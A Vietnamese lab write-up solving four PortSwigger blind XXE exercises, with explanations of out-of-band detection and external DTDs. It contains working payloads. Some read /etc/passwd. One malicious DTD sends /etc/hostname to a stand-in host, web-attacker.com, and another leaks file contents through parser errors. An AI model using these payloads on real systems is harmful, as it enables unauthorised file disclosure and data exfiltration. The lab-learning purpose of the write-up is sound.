

# [Lab 3: Blind XXE with out-of-band interaction](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction)

> - **Mô tả lab:** Chức năng `Check stock` phân tích cú pháp đầu vào XML nhưng không hiển thị kết quả trong response. Tuy nhiên có thể phát hiện lỗ hổng `blind XXE` bằng cách kích hoạt OOB.
> 
> - **Mục tiêu:** Sử dụng một thực thể bên ngoài để làm cho trình phân tích cú pháp XML phát hành tra cứu DNS và yêu cầu HTTP tới `Burp Colaborator`.

Chèn XML nhưng response không hề có kết quả trả về khi thực hiện cú pháp.

Ta sẽ khai thác `Blind XXE` bằng cách kích hoạt OOB

phản hồi từ `Collaborator`

sovle the lab

> **Test bằng Active Scan**

# [Lab 4: Blind XXE with out-of-band interaction via XML parameter entities](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction-using-parameter-entities)

> - **Mô tả lab:** Chức năng `Check stock` phân tích cú pháp đầu vào XML nhưng không hiển thị kết quả không mong muốn và chặn các yêu cầu chứa các thực thể từ bên ngoài.
> 
> - **Mục tiêu:** Sử dụng một thực thể bên ngoài để làm cho trình phân tích cú pháp XML phát hành tra cứu DNS và yêu cầu HTTP tới `Burp Colaborator`.

Khi thực hiện chèn thực thế từ bên ngoài, thì bị block `Entities are not allowed for security reasons`

Test tiếp, ta sẽ bypass bằng sử dụng tham số `%xxe`: `<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "file:///etc/passwd"> %xxe; ]>`

Tuy nhiên chỉ hiển thị lỗi mà không có trả về kết quả của ta mong muốn, vậy là `Blind XXE`, ta sẽ kích hoạt OOB: `<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://domain"> %xxe; ]>`

nhưng bên này nhận được DNS rồi

solve the lab

> **Test bằng Active Scan**

# [Lab 5: Exploiting blind XXE to exfiltrate data using a malicious external DTD](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-exfiltration)

> - **Mô tả lab:** Có tính năng `Check stock` để phân tích dữ liệu đầu vào XML nhưng không hiển thị kết quả. 
> 
> - **Mục tiêu:** Lọc nội dung của tệp `/etc/hostname`.

Test thử một lúc thì phát hiện dạng là `Blind XXE` rồi vì chỉ có trả về thông báo chứ không có dữ liệu gì cả, và ta có thể kích hoạt OOB.

Phản hồi từ `Collaborator`

Vì cần đọc được nội dung file `/etc/hostname`, nên ta cần tạo 1 DTD độc hại để đọc được nội dung file này

    <!ENTITY % file SYSTEM "file:///etc/hostname">
    <!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
    %eval;
    %exfiltrate;

- Có 2 thực thể được định nghĩa là `%file` và `%eval`

    - `%file` được trỏ đến tệp `/etc/hostname`

    - `%eval` được định nghĩa để tạo thực thể khác là `%exfiltrate`

    - `%exfiltrate` gửi thông tin về tệp tin `/etc/hostname` tới trang web `http://web-attacker.com/`

Store lại và file DTD sẽ được lưu tại `URL` ở đầu trang

Cuối cùng, tấn công gửi XXE: `<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>`

Quan sát từ `Collaborator`, ta đã thấy nội dung file được trả về

submit và solve lab

> **Test bằng Active Scan**

# [Lab 6: Exploiting blind XXE to retrieve data via error messages](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-data-retrieval-via-error-messages)

> - **Mô tả lab:** Có tính năng `Check stock` để phân tích dữ liệu đầu vào XML nhưng không hiển thị kết quả.
> 
> - **Mục tiêu:** Sử dụng DTD bên ngoài để kích hoạt thông báo lỗi hiển thị nội dung của tệp `/etc/passwd`. 

Khi ta chèn cú pháp XML thì trong phản hồi của ứng dụng có chỉ ra lỗi khi phân tích cú pháp

Giờ ta sẽ tạo 1 file DTD độc hại để kích hoạt thông báo lỗi phân tích cú pháp XML chứa nội dung tệp `/etc/passwd`

    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
    %eval;
    %error;

- Có 2 thực thể được định nghĩa là `%file` và `%eval`

    - `%file` được trỏ đến tệp `/etc/passwd`

    - `%eval` được định nghĩa để tạo thực thể khác là `%error`

    - `%error` trỏ tới một tệp không tồn tại chứa thông tin của tệp `/etc/passwd`

Sau khi Store thì file sẽ được lưu tại `URL` hiển thị ở đầu trang

Cuối cùng là gửi tấn công XXE: `<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe; ]>` và hiển thị thành công lỗi khi phân tích cú pháp XML

solve lab

> **Test bằng Active Scan**

